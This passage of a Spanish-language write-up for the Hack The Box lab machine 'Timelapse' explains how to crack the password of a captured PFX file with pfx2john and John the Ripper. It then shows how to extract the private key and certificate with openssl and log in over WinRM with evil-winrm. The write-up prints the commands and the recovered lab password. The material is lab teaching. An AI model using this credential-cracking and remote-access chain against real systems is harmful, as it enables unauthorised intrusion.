Un archivo PFX contiene una copia de seguridad de una clave privada y un certificado, les puedo adelantar que con este certificado y clave privada nos podremos conectar por WinRM por el puerto **5986** que es el que usa SSL, asi que usando **openssl** podemos extraer ese certificado y esa clave privada.

Si intentamos extraer la clave usando openssl:

```ruby
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

Nos pedira una contraseña, si ingresamos la de **supremelegacy** nos dira que es incorrecta, asi que podemos probar con **pfx2john** para sacar el hash y luego crackearlo (otra forma es usar **crackpkcs12**)

```ruby
pfx2john legacyy_dev_auth.pfx > hashPfx
```

```ruby
john --wordlist=/usr/share/wordlists/rockyou.txt hashPfx
```

Y tenemos la contraseña: **thuglegacy**, ahora ya podemos sacar el certificado y la clave:

```ruby
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

```ruby
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
```

Ahora ya nos podemos conectar con **EvilWinRM** con SSL

```ruby
evil-winrm -S -i timelapse.htb -c cert.pem -k key.pem 
```

Y ya somos **legacyy**

![](/assets/img/timelapse/4.png)
